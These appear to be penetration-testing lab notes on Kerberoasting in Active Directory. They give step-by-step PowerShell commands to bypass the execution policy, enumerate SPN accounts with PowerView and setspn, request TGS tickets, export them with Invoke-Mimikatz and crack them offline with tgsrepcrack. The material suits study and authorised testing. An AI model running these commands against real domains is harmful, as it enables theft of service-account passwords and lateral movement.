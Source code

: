 

Kerberoasting is a post exploitation techniques used to obtain the password hash of AD account that has **Service Name Principle "SPN"** enabled. 

- Authenticated Domain user requests a Kerberos ticket for an SPN. 
- The retrieved Kerberos ticket is encrypted with the hash of the service account password affiliated with the APN. 
- The attacker can try to crack the password hash offline.


### Tasks

- Identify user accounts with service Principal Name (SPN) enabled.
- Request a TGS ticket for the specified SPN using Kerberos. 
- Crack the password from TGS ticket using Tgsrepcrak. 


##### Bypass Execution Policy:
```powershell
powershell -ep bypass
```
##### Import Powerview

```powershell
. .\PowerView.ps1
```


##### Identify User accounts with SPN enabled:

```powershell
Get-NetUser | Where-Object {$_.servicePrincipalName} | fl
```

SetSPN
```powershell
setspn -T research -Q */*
```


##### Review Kerberos Tickets
```powershell
klist
```

List kerberos tickets for the current user sessions. 


Get the TGS ticket:
```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestSecurityToken -ArgumentList "ops/research.SECURITY.local:1434"
```

`ops/research.SECURITY.local:1434` This can be found with the above command `setspn -T research -Q */*`.


Export The Kerberos Ticket:
```powershell
. .\Invoke-Mimikatz.ps1
```

```powershell
Invoke-Mimikatz -Command '"kerberos::list /export"'
```

It will save the tickets in file.

Cracking the tickets
```
python.exe tgsrepcrack.py wordlist.txt 1-40student@ops.local.kirbi
```


It will show the password. 

